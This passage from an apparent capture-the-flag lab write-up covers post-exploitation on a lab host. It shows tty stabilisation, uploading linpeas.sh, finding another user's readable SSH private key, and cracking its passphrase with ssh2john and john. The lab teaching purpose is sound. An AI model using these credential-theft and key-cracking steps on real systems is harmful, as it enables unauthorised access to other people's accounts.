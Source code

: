 We got the credentials. Now we have access to the server via SSH.

<br>
# Post-Exploitation
----------

### tty treatment
-----------
```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 185
```

We need to find a way to escalate privileges. To find ways in Linux I normally use **linpeas.sh** 

```bash
❯ scp linpeas.sh jan@10.10.175.143:/tmp/
```

The output is quite long, but it reports the location of the ssh keys of kay.

```
jan@ip-10-10-175-143:/home/kay$ cat pass.bak
cat: pass.bak: Permission denied
jan@ip-10-10-175-143:/home/kay$ ls -l pass.bak
-rw------- 1 kay kay 57 Apr 23  2018 pass.bak
jan@ip-10-10-175-143:/home/kay/.ssh$ ls -la
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```

In the home directory of kay we found an interesting pass.bak file, but we can't open the file. 

We need to access as kkay. I'll copy the content of the private SSH key file id_rsa and paste it in my machine. I'll use  **ssh2john** and then, **john**.

```
❯ ssh2john id_rsa > pass.hash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt pass.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 7 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<THE_CRACKED_PASSWORD>     (id_rsa)     
1g 0:00:00:00 DONE (2025-10-29 20:40) 2.500g/s 206920p/s 206920c/s 206920C/s benjamine..babymonkey
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

